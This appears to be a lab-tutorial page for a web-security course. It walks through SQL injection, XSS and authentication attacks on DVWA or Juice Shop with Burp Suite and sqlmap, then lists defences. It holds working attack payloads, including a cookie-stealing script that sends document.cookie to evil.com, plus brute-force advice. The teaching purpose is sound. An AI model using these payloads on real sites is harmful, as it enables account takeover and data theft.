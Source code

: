 ```yaml
---
title: "Web Application Security & Exploitation"
description: "Perform SQL Injection, XSS, and authentication bypass attacks using Burp Suite, SQLMap, and OWASP ZAP."
date: 2025-02-22
tags: ["Web Security", "Penetration Testing", "SQL Injection", "XSS"]
categories: ["Projects"]
menu:
  main:
    parent: "Web Application Security & Exploitation"
    weight: 1
draft: false
---
```


# 🔥 Web Application Security & Exploitation Lab

## 1️⃣ Setting Up the Lab
### Install the Necessary Tools
- **Burp Suite Community Edition** → [Download here](https://portswigger.net/burp/communitydownload)  
- **OWASP ZAP** → [Download here](https://www.zaproxy.org/download/)  
- **SQLMap** (Command-line tool, install via `pip`):
  ```bash
  pip install sqlmap
  ```
- **Vulnerable Web Application (Choose One)**  
  - **DVWA (Damn Vulnerable Web App)** → Install on a local VM (Apache + PHP).  
  - **OWASP Juice Shop** → Easy setup using Docker:
    ```bash
    docker run -d -p 3000:3000 bkimminich/juice-shop
    ```

---

## 2️⃣ SQL Injection Attack
SQL Injection (SQLi) allows attackers to extract data from a database.

### Step 1: Identify a Vulnerable Input Field
1. Open **Burp Suite** and turn on **Intercept Mode**.
2. Enter a **username and password** in a login form, then capture the request.
3. **Modify the request** with a simple SQLi payload:
   ```sql
   ' OR '1'='1' --
   ```
4. Forward the request and see if you get **unauthorized access**.

### Step 2: Automate SQL Injection with SQLMap
Run **SQLMap** against a vulnerable parameter:
```bash
sqlmap -u "http://target.com/login.php?user=admin" --dbs
```
- This command will **extract database names** if the input is vulnerable.

---

## 3️⃣ Cross-Site Scripting (XSS) Attack
XSS attacks allow injecting JavaScript into vulnerable web pages.

### Step 1: Find a Comment or Search Field
1. In **DVWA**, go to the **XSS (Stored) section**.
2. Submit this script as a comment:
   ```html
   <script>alert('Hacked!');</script>
   ```
3. If vulnerable, every visitor will see the **JavaScript alert box**.

### Step 2: Perform XSS via Burp Suite
1. Capture a **search request** in **Burp Suite**.
2. Modify the search query to inject:
   ```html
   <img src=x onerror=alert('XSS')>
   ```
3. If the input isn’t sanitized, the JavaScript **executes in the victim’s browser**.

---

## 4️⃣ Authentication Bypass Attack
Many websites store **session tokens** in cookies, which can be stolen.

### Step 1: Steal a User’s Cookie
1. Inject this script into a comment field:
   ```html
   <script>document.location='http://evil.com/steal.php?cookie='+document.cookie</script>
   ```
2. The attacker receives the victim's **authentication cookie**.
3. Use the stolen cookie to **log in as the victim**.

### Step 2: Test for Weak Authentication
1. Try **default credentials** (e.g., `admin:admin` or `root:password`).
2. If the site lacks **rate limiting**, use Burp Suite’s **Intruder** tool to brute-force login attempts.

---

## 🔐 Defensive Measures
After exploiting these vulnerabilities, we must understand **how to prevent them**.

✅ **Preventing SQL Injection:**  
- Use **prepared statements** in SQL queries.  
- Implement **Web Application Firewalls (WAFs)** to block malicious requests.

✅ **Preventing XSS Attacks:**  
- Always **sanitize user inputs** before storing them.  
- Use **Content Security Policy (CSP)** to restrict script execution.

✅ **Preventing Authentication Attacks:**  
- Implement **Multi-Factor Authentication (MFA)**.  
- Store session tokens **securely (HTTPOnly & Secure flags)**.

---

## 📌 Conclusion
This lab teaches you **real-world penetration testing skills** for **web application security**. By completing this, you’ve learned:
✅ How attackers exploit **SQL injection and XSS** vulnerabilities.  
✅ How to **manipulate web requests** using **Burp Suite**.  
✅ How to **steal session tokens and bypass authentication**.  
✅ How to **defend against web-based attacks**.

---

## 📤 Submission Instructions
- Submit **screenshots or a detailed report** explaining:  
  ✅ How you exploited each vulnerability  
  ✅ The impact of the attack  
  ✅ Steps to mitigate the issue  

🚀 **Next Steps:**  
- Try testing **real-world bug bounty challenges** at [Hack The Box](https://www.hackthebox.com/) or [PortSwigger’s Web Security Academy](https://portswigger.net/web-security).

